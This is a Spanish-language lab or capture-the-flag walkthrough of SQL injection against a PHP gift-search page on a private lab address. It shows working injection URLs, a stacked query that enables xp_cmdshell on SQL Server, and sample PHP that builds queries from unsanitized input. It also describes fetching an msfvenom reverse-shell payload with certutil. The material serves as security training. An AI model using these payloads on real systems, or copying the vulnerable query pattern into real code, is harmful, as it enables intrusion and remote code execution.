 Luego de completarlo y continuar vemos que la URL cambio a `http://10.10.82.23/giftresults.php?age=adult&interests=gadgets&budget=100`, analizando la dirección podemos deducir que los parámetros son `age`, `interests` y `budget`.

Probemos modificar la URL de la siguiente manera:

```sql
http://10.10.82.23/giftresults.php?age='&interests=toys&budget=30
```

Y obtenemos lo siguiente:

![output](img/3.png)

Lo que nos da una gran cantidad de información del trasfondo de la bdd, entre otras cosas obtenemos la data de que el input no está sanitizado y que el gestor es Microsoft SQL Server.  
Con esta información podríamos asumir que el código PHP de fondo se vería mas o menos así:

```php
$age = $_GET['age'];
$interests = $_GET['interests'];
$budget = $_GET['budget'];

$sql = "SELECT name FROM gifts WHERE age = '$age' AND interests = '$interests' AND budget <= '$budget'";

$result = sqlsrv_query($conn, $sql);
```

Probemos inyectando `' OR 1=1 --`:

```sql
http://10.10.82.23/giftresults.php?age=' OR 1=1 --
```

Obtenemos el listado de regalos:

![regalos](img/4.png)

### Ejecutando código remotamente

Sabemos que se trata de SQL Server, por lo que podemos intentar la activación de `xp_cmdshell` de la forma que se explicó previamente. Inyectamos la expresión adecuada y la URL nos quedaría así:

```sql
http://10.10.82.23/giftresults.php?age='; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

Como sabemos, esta ejecución no devuelve nada:

![output](img/5.png)

Para verificarlo aplicamos lo aprendido sobre MSFvenom. Comenzamos generando el payload:

![msfvenom](img/6.png)

Levantamos el servidor con Python e inyectamos con stacked query la llamada a `xp_cmdshell` para ejecutar `certutil.exe` y obtener `reverse.exe`.
